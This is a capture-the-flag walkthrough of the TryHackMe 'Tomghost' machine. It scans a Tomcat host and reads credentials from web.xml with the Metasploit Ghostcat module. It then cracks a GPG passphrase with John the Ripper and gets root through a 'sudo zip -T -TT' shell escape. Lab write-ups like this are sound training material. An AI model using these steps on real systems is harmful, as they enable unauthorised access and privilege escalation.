


# Tomghost

## NMAP

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sS -p- 10.10.104.118                                 
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-21 06:29 EST
Nmap scan report for 10.10.104.118
Host is up (0.050s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
8009/tcp open  ajp13
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 76.37 seconds
                                                                                  
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sSVC -p 22,53,8009,8080 10.10.104.118 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-21 06:31 EST
Nmap scan report for 10.10.104.118
Host is up (0.049s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.67 seconds
```

## Ghostcat

port 8009 open and no other web port open

AJP is a wire protocol. It an optimized version of the HTTP protocol to allow a standalone web server such as Apache to talk to Tomcat. Historically, Apache has been much faster than Tomcat at serving static content. The idea is to let Apache serve the static content when possible, but proxy the request to Tomcat for Tomcat related content




Due to a flaw in the Tomcat AJP protocol, an attacker can read or include any files in the webapp directories of Tomcat. For example, An attacker can read the webapp configuration files or source code. In addition, if the target web application has a file upload function, the attacker may execute malicious code on the target host by exploiting file inclusion through Ghostcat vulnerability.

Apache Tomcat 9.x < 9.0.31 is affected

### Exploiting this using metasploit

```
msf6 > search ghostcat

```

```
msf6 > use 0
msf6 auxiliary(admin/http/tomcat_ghostcat) > show opiton
[-] Invalid parameter "opiton", use "show -h" for more information
msf6 auxiliary(admin/http/tomcat_ghostcat) > show options

Module options (auxiliary/admin/http/tomcat_ghostcat):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   AJP_PORT  8009              no        The Apache JServ Protocol (AJP) port
   FILENAME  /WEB-INF/web.xml  yes       File name
   RHOSTS                      yes       The target host(s), see https://docs.me
                                         tasploit.com/docs/using-metasploit/basi
                                         cs/using-metasploit.html
   RPORT     8080              yes       The Apache Tomcat webserver port (TCP)
   SSL       false             yes       SSL


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/http/tomcat_ghostcat) > exploit

```

In this case we simply include and retrieve the contents of the /WEB-INF/web.xml file. In this file we can find the following credentials to ssh.

**skyfuck:8730281lkjlkjdqlksalks**


## Getting Merlin

```
skyfuck@ubuntu:~$ gpg --import tryhackme.asc 
gpg: key C6707170: secret key imported
gpg: key C6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key C6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
```


```
skyfuck@ubuntu:~$ gpg -d -o credential.txt credential.pgp 

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

```

We need a password.

Get the gpg key to you attacking machine and lets try to crack the password.

```
                                          
┌──(kali㉿kali)-[~/Desktop]
└─$ gpg2john tryhackme.asc > gpgJohnKey

```
```
┌──(kali㉿kali)-[~/Desktop]
└─$ john gpgJohnKey --wordlist=/home/kali/Desktop/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)     
1g 0:00:00:00 DONE (2023-11-21 07:14) 5.882g/s 6305p/s 6305c/s 6305C/s chinita..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```


```
skyfuck@ubuntu:~$ gpg -d -o credential.txt credential.pgp 

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
skyfuck@ubuntu:~$ cat credential.txt 
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

```
$ su merlin
Password: 
merlin@ubuntu:/home/skyfuck$ 
```

## PrivEsc


```
merlin@ubuntu:/home/skyfuck$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```




```
merlin@ubuntu:/home/skyfuck$ TF=$(mktemp -u)
merlin@ubuntu:/home/skyfuck$ sudo /usr/bin/zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
```